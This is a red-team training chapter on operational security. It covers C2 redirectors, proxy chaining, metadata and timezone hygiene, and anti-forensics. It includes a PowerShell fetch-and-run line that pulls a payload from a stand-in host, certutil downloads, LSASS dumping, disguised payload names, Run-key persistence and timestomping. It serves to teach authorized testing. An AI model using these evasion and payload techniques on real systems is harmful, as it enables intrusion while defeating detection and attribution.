

# Operational Security: The Art of Invisibility

---
title: "Operational Security (OpSec)"
parent: "[[01_Foundations]]"
tags:
  - foundations
  - opsec
  - privacy
  - infrastructure
  - red-team
created: 2026-01-23
updated: 2026-01-23
---

> **Executive Summary**: Operational Security (OpSec) is the discipline of denying an adversary information about your capabilities and intentions. For a Red Teamer, OpSec is the difference between a successful engagement and an immediate block. For a criminal, it is the difference between freedom and prison. This chapter explores the technical and procedural implementations of anonymity, attribution management, and infrastructure protection.

---

## Table of Contents
1. [Learning Objectives](#1-learning-objectives)
2. [The Hierarchy of Attribution](#2-the-hierarchy-of-attribution)
3. [Infrastructure Design: The Multi-Layer Approach](#3-infrastructure-design-the-multi-layer-approach)
4. [Traffic Anonymization: VPNs, Tor, and Proxies](#4-traffic-anonymization-vpns-tor-and-proxies)
5. [Digital Fingerprinting & Management](#5-digital-fingerprinting--management)
6. [Operational Cleanliness (The "Clean Machine")](#6-operational-cleanliness-the-clean-machine)
7. [Anti-Forensics & Disk hygiene](#7-anti-forensics--disk-hygiene)
8. [Critical Analysis & Checkpoints](#8-critical-analysis--checkpoints)

---

## 1. Learning Objectives

By the end of this chapter, you will be able to:

- **Design Red Team Infrastructure**: Build a resilient C2 architecture with redirectors to hide your backend.
- **Evade Attribution**: Manage User-Agents, Timezones, and Metadata to blend into target noise.
- **Chain Proxies**: Configure ProxyChains and SSH tunnels to route tools through multiple hops.
- **Sanitize Artifacts**: Remove metadata from payloads and documents before delivery.
- **Secure Communication**: Implement PGP and OTR for out-of-band communication.

---

## 2. The Hierarchy of Attribution

Blue Teams and Law Enforcement use a hierarchy of indicators to track you.

### Level 1: Atomic Indicators (Easy to Change)
- **IP Address**: Changed via VPN/Proxy.
- **Email Address**: Burner accounts.
- **Domain Name**: New registrations.

### Level 2: Behavioral Indicators (Harder to Change)
- **Tool Artifacts**: User-Agents (`sqlmap/1.0`), HTTP Headers, default SSL certificates (`Metasploit Snake Oil`).
- **Timing**: Scanning at exactly 09:00 UTC every day.
- **Language**: Compilation language (Chinese comments in code), Keyboard layout artifacts.

### Level 3: TTPs (Very Hard to Change)
- **Tactics, Techniques, Procedures**: "They always use Cobalt Strike via DNS tunneling." "They always target the HR department with phishing."
- Changing your entire workflow is difficult.

---

## 3. Infrastructure Design: The Multi-Layer Approach

Never hack directly from your asset.

### 3.1 The Principle of Disposability
Your attack infrastructure consists of two parts:
1.  **Long-Term (Team Server/C2)**: Holds the data, the loot, and the configuration. **Must Never Be Burned.**
2.  **Short-Term (Redirector)**: Forwards traffic. Disposable. **Expected to Be Burned.**

### 3.2 The Redirector Architecture
A Redirector is a "dumb" proxy (Apache/Nginx/Socat) sitting in front of your Team Server.



**Scenario**: Blue Team detects the attack and blocks the IP of `Red1`.
**Response**: You destroy `Red1` (terminate AWS instance), spin up `Red2` (new IP), update DNS. Your C2 server remains untouched.

### 3.3 Domain Fronting (Legacy) & Domain Hiding
- **Domain Fronting**: Using a high-reputation domain (like `ajax.googleapis.com`) in the SNI header to mask the true destination. (Mostly patched by cloud providers).
- **Domain Reputation**: Don't use `evil-hackers.xyz`. Buy an expired domain like `healthcare-consulting-group.com` that has 5 years of history. Categorize it as "Finance" or "Health" to bypass web filters.

---

## 4. Traffic Anonymization: VPNs, Tor, and Proxies

### 4.1 VPN (Virtual Private Network)
- **Function**: Encrypts all traffic from your OS to the VPN provider.
- **Trust**: You shift trust from your ISP to the VPN Provider.
- **OpSec Failure**: If the VPN connection drops, does your traffic leak? **Kill Switch** is mandatory.

### 4.2 Tor (The Onion Router)
- **Function**: Routes traffic through 3 random nodes (Entry -> Middle -> Exit).
- **Pros**: High anonymity.
- **Cons**: Slow. Exit nodes are public and often blocked by firewalls. Malicious exit nodes can sniff unencrypted traffic.
- **Use Case**: OSINT research, browsing target sites anonymously. **NOT** for high-bandwidth scanning.

### 4.3 ProxyChains
Forces command-line tools through a SOCKS proxy.
**Config**: `/etc/proxychains4.conf`.
```bash
# Dynamic Chain: Skips dead proxies
dynamic_chain
proxy_dns 
[ProxyList]
socks5 127.0.0.1 9050 # Tor
socks4 1.2.3.4 8080 # Custom Proxy
```
**Usage**: `proxychains nmap -sT -Pn target.com`

---

## 5. Digital Fingerprinting & Management

### 5.1 The "Clean" Virtual Machine
Do not use your daily driver for hacking.
- **Browser**: Your personal Chrome has cookies for Gmail, Facebook, LinkedIn. One accidental click reveals your identity.
- **Fingerprinting**: `amiunique.org` shows how unique your browser is.
- **Strategy**: Use a fresh VM for every engagement. Reset snapshots daily.

### 5.2 Metadata Scrubbing
Every file you create has metadata.
- **PDF/Word**: Author Name, Software Version, Creation Date.
- **Images**: Exif data (GPS, Camera Model).
- **Tool**: `mat2` (Metadata Anonymisation Toolkit).
```bash
mat2 suspicious_document.pdf
```

### 5.3 Timezone Hygiene
If you are attacking a target in New York (EST):
- Set your VM clock to EST.
- Scan during their business hours (to blend in) OR during the night (to avoid detection), depending on RoE.
- **Risk**: Scanning at 3 AM your local time (which is 9 AM their time) suggests your geographic location.

---

## 6. Operational Cleanliness (The "Clean Machine")

### 6.1 User Agents
Nmap's default User-Agent is `Mozilla/5.0 (compatible; Nmap Scripting Engine...)`.
**Blue Team**: Blocks "Nmap".
**Solution**: Change it to a standard browser string.
- Nmap: `--script-args http.useragent="Mozilla/5.0..."`
- Burp: User Options -> Upstream Proxy -> Match/Replace.

### 6.2 Naming Conventions
Don't upload `meterpreter.exe` to `/tmp`.
- **Blend In**: Check the running processes. Is there `java`, `nginx`?
- **Name**: `nginx_updater.exe`, `java_debug_svc`.
- **Location**: `C:\Windows\Temp\` is suspicious. `C:\Users\Public\` is noisy. `C:\ProgramData\` is better.

### 6.3 Cleanup Scripts
The engagement isn't over until the artifacts are gone.
**The Log**: Keep a list of EVERY file you dropped.
- `C:\Windows\Temp\payload.exe`
- `/dev/shm/.scrip.sh`
- Registry Key: `HKCU\Software\Microsoft\Windows\Run\Updater`

---

## 7. Anti-Forensics & Disk hygiene

### 7.1 Living off the Land (LotL)
Why bring a rifle if the target has a shotgun on the wall?
- **Don't**: Upload `mimikatz.exe` (Trigger AV).
- **Do**: Use PowerShell to dump LSASS.
- **Do**: Use `certutil` to download files instead of `wget`.
- **Do**: Use `netsh` for port forwarding instead of `socat`.

### 7.2 Memory vs. Disk
- **Disk**: Forensics allows recovery of deleted files.
- **Memory**: Volatile. Disappears on reboot.
- **Technique**: Reflective DLL Injection. Loading code directly into memory without touching disk.
    - Powershell: `IEX (New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')`

### 7.3 Timestomping
If you drop a malicious DLL in `System32`, its "Date Modified" will be today. All other DLLs are from 2021.
**Detection**: Easy sort by date.
**Technique**: Change the timestamp to match `kernel32.dll`.
- Meterpreter: `timestomp payload.dll -f C:\\Windows\\System32\\kernel32.dll`

---

## 8. Critical Analysis & Checkpoints

### 8.1 The "OpSec Paradox"
Higher OpSec = Lower Speed/Convenience.
- Tor is slow.
- Redirectors add latency.
- Cleaning metadata takes time.
**Decision**: Balance based on the adversary.
- **CTF**: Zero OpSec. Go fast.
- **Pentest**: Medium OpSec. Hide from simple logs.
- **Red Team**: Max OpSec. Hide from hunters.

### 8.2 Checkpoint Questions
1.  **Scenario**: You are using a VPN. Your VM crashes and reboots. What happens to your traffic?
    - *Answer*: If you didn't configure a Firewall Kill Switch (e.g., UFW deny out on non-tun0), your OS might send traffic out the default gateway (ISP), revealing your true IP.
2.  **Infrastructure**: Why use a domain for C2 instead of an IP?
    - *Answer*: If an IP is blocked, you can update the DNS record to point to a new IP (Redirector) and the malware on the victim will reconnect. If you hardcode an IP, you lose the shell forever.
3.  **Traceability**: Can a VM be fingerprinted?
    - *Answer*: Yes. MAC OUI (`00:0C:29` = VMware), Video Drivers, and specific ACPI tables reveal you are in a VM. Advanced malware checks this to avoid analysis (Anti-VM).

### 8.3 Final Thoughts
OpSec is a mindset, not a tool. It is the constant paranoia of "What trail am I leaving?" and "Who is watching?". Assume you are being watched. Assume logs are being aggregated. Hack accordingly.

---
*End of Chapter 06*
